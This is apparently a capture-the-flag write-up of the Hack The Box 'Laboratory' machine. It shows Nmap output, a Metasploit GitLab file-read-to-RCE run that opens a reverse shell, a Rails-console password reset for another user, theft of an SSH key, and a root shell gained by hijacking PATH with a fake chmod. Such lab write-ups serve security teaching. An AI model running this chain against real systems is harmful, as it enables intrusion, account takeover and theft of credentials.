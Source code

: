#+TITLE: Laboratory
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

* Laboratory

We start by using Nmap right away:

#+BEGIN_SRC
nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.10.10.216
#+END_SRC

And the result:

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 10:44 WET
Nmap scan report for 10.10.10.216
Host is up (0.045s latency).
Not shown: 65532 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.42 seconds
#+END_SRC

This result shows us three different open ports: 22, 80, 443.
Under the port 443 entry, we can see this string =Subject Alternative Name:
DNS:git.laboratory.htb=. This says that there is a subdomain. So in this case,
we add it to the =/etc/hosts= file alongside the =laboratory.htb= one.

By looking at the =laboratory.htb= website, we do not find anything interesting
really. At least at a first glance. No URLs to other pages, no interesting JS
files.

By checking =git.laboratory.htb=, we can clearly see that the first page, which
is a sign in page, is a GitLab Community Edition instance! We can also register
our own username here.

If we try to register, unfortunately, we get this error: =1 error prohibited this user from being saved:
=.
Probably they want us to register with their own domain?

[file:images/img1.jpg]

And then, after successfuly registering, we are redirected to the dashboard.
From here, the first thing we ought to know is what version of Gitlab is being
used. We can rapidly know this by going to the question mark on the navigation
bar and clicking =Help=. With this, we know we are working with =GitLab
Community Edition Version 12.8.1=.

When searching Google for exploits, there is one result from =HackerOne= that
shows an Arbitrary File Read vulnerability tested in GitLab version 12.8.7. This
version is higher than the one we are working with. Alongside this, there is a
full explanation of how the exploit works. There’s even a video of a
demonstration. The =HackerOne= report url is this: [https://hackerone.com/reports/827052].

Metasploit has made our lives easier by having a script that does it all.

#+BEGIN_SRC
msf6 > use exploit/multi/http/gitlab_file_read_rce
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/http/gitlab_file_read_rce) > show options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               Required  Description
   ----             ---------------                                               --------  -----------
   DEPTH            15                                                            yes       Define the max traversal depth
   PASSWORD                                                                       no        The password for the specified username
   Proxies                                                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            80                                                            yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  yes       The path to the secrets.yml file
   SECRET_KEY_BASE                                                                no        The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present
   SSL              false                                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /users/sign_in                                                yes       The path to the vulnerable application
   USERNAME                                                                       no        The username to authenticate as
   VHOST                                                                          no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.64     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > set PASSWORD testregister1
PASSWORD => testregister1
msf6 exploit(multi/http/gitlab_file_read_rce) > set USERNAME testregister1
USERNAME => testregister1
msf6 exploit(multi/http/gitlab_file_read_rce) > set VHOST git.laboratory.htb
VHOST => git.laboratory.htb
msf6 exploit(multi/http/gitlab_file_read_rce) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
msf6 exploit(multi/http/gitlab_file_read_rce) > set RHOSTS 10.10.10.216
RHOSTS => 10.10.10.216
msf6 exploit(multi/http/gitlab_file_read_rce) > set RPORT 443
RPORT => 443
msf6 exploit(multi/http/gitlab_file_read_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user testregister1
[*] Created project /testregister1/bmfJNdMh
[*] Created project /testregister1/g4kCDTHP
[*] Created issue /testregister1/bmfJNdMh/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/romeu/.msf4/loot/20210206182000_default_10.10.10.216_gitlab.secrets_847052.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /testregister1/bmfJNdMh
[*] Deleted project /testregister1/bmfJNdMh
[*] Attempting to delete project /testregister1/g4kCDTHP
[*] Deleted project /testregister1/g4kCDTHP
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.216:42322) at 2021-02-06 18:20:07 +0000

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Feb  6 16:24 ..

#+END_SRC

Now having a reverse shell, we find out that we are the =git= user.
Let’s try messing around with the Gitlab Rails Console:

#+BEGIN_SRC
$ gitlab-rails console
#+END_SRC

There is a cheat-sheet with some commands, from GitLab:
[https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html].
There are some commands to find users, one of them being
=User.find_by_username('someuser')=. What seems logical to try first is using
this command but trying to find =admin= instead. Unfortunately, zero results.
Maybe we can execute something like =find_by_id=?

We know there is a user called =dexter=. Wonder if we can change the user data.
There is another GitLab link that is very helpful:
[https://docs.gitlab.com/ee/administration/troubleshooting/navigating_gitlab_via_rails_console.html].

[file:images/img3.jpg]

Let’s try setting our own password for =dexter=:

#+BEGIN_SRC
$ user = User.find_by_id(1)
$ user.password = ‘password’
$ user.password_confirmation = ‘password’
$ user.save!
#+END_SRC

Now if we go back to [https://git.laboratory.htb/] and login with
=dexter:password=, we succeed! Let’s check his repositories.

One of them is called =securedocker= and has =CONFIDENTIAL!= in its description.
If we dig in, we can find the users’ =id_rsa= in the =.ssh= folder.

[file:images/img4.jpg]

We download the file, set permissions to 400 and login:

#+BEGIN_SRC
$ chmod 400 id_rsa
$ ssh -i id_rsa dexter@10.10.10.216
dexter@laboratory:~$
#+END_SRC

After that, we just get the user flag!

Now, we don’t have the user password, so we can’t actually run =sudo -l= to
check if the user can run some program as superuser.
One thing we can do this use the =find= command to check SUID executable
binaries:

#+BEGIN_SRC
$ find / -perm -4000 -type f -print 2>/dev/null
#+END_SRC

There are many binaries here and we can use GTFOBins
[https://gtfobins.github.io/] to check if there are binaries we can get the
advantage of because of SUID. In =/usr/bin= all binaries are useless. But there
is one in =/usr/local/bin/= called =docker-security=. Running it yields no
results, but we can use =ltrace= to see what it is trying to do during runtime:

#+BEGIN_SRC
$ ltrace /usr/local/bin/docker-security

setuid(0)                                                                                                                                          = -1
setgid(0)                                                                                                                                          = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
+++ exited (status 0) +++
#+END_SRC

As expected, it sets =uid= and =gid= to =0=.
It is also trying to run =chmod=. So we can spoof this binary using =$PATH= to
spawn a root shell!

The steps to do this are simple:

#+begin_src
$ cd /tmp
$ echo “/bin/bash” > chmod
$ export PATH=/tmp:$PATH
$ echo $PATH # just to check
$ ./usr/local/bin/docker-security
#+end_src

Root permissions! :-)

